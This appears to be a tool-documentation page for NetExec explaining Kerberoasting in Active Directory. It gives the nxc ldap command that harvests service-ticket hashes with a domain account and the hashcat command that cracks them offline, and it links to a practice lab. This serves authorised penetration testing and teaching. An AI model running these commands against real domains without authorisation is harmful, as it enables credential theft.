 ```yaml
---
description: Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting
---
```


# Kerberoasting

You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain
{% endhint %}

```bash
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

### Cracking with hashcat

```bash
hashcat -m13100 output.txt wordlist.txt
```

### Example

Active machine is a good example to test **Kerberoasting** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/148" %}

### Useful ressources:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}
